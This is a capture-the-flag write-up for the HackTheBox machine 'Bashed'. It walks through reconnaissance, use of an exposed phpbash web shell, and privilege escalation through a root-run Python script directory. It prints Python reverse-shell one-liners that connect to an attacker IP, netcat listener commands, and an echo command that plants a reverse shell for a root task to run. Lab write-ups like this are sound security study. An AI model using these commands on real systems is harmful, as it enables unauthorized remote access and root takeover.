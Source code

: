 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/bashed-01.png)


## Recon

I start by adding the target to my `/etc/hosts` file.

Then i fire off `nmap` to scan it:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/nmap-res-02.png)


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/site-03.png)


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/phpbash-04.png)


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/github-05.png)

Sounds useful, lets see how to use this tool:

![usage-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/usage-06.png)

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-bin.txt -u http://bashed.htb/FUZZ
```

![dev-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-07.png)

This `dev` directory looks promising, lets check it out:

![dev-dir-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-dr-08.png)

Here it is, if we click it we get access to the system:

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/shell-09.png)

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/passwd-10.png)

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/sudo-privs-11.png)


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/tty-shell12.png)

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/switch-user-13.png)

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-14.png)


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-ll-15.png)


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/py-script-16.png)

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file ownedby root we saw before in our current directory. The fact taht the file is owned by root tells me there is a task running in the background periodically as the root user, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/task-17.png)


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/root-18.png)
